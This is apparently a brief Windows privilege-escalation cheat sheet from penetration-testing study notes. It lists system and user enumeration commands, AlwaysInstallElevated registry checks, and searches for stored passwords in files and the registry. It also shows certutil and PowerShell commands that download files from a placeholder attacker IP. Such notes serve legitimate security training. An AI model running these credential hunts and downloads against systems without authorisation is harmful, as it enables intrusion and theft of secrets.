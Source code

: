 1. Get sysinfo
2. net users
3. net user joe (are they a part of admin group)
5. schtasks /query /fo LIST /v
6. tasklist /SVC
7. wmic /?
8. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
9. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
10. dir /s *pass* == *cred* == *vnc* == *.config*
11. findstr /si password *.xml *.ini *.txt
12.  reg query HKLM /f password /t REG_SZ /s
13.  reg query HKCU /f password /t REG_SZ /s



# File Transfers #
1. certutil -urlcache -split -f http://192.168.XXX.XXX:8000/test.txt test.txt'
2. Invoke-WebRequest -Uri http://192.168.XXX.XXX:8000/test.txt -Outfile test.txt

# Windows powershell privesc checker#
1. https://github.com/itm4n/PrivescCheck
Great Resource: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
